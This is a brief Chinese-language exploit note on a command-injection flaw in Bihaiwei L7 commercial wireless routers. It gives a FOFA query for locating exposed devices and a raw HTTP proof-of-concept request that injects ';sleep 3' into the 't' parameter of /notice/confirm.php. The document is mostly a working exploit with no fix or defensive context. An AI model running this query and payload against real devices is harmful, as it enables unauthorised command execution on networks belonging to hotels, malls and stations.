 ## 碧海威L7产品confirm存在命令执行漏洞

碧海威L7网络产品是为酒店、度假村、商场和车站等商用无线管理者独身订造的专用网络设备。设备具备路由、防火墙、流控、无线AC控制器、微信认证等多项功能。碧海威 L7多款产品confirm存在命令执行漏洞

## fofa

```
product="碧海威科技-L7云路由"
```

## poc

```
GET /notice/confirm.php?t=;sleep%203 HTTP/1.1
Host: 
Cookie: SESSID=e2cc8cfb14aa1d77ffcfc93204a1d57b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262255529.png)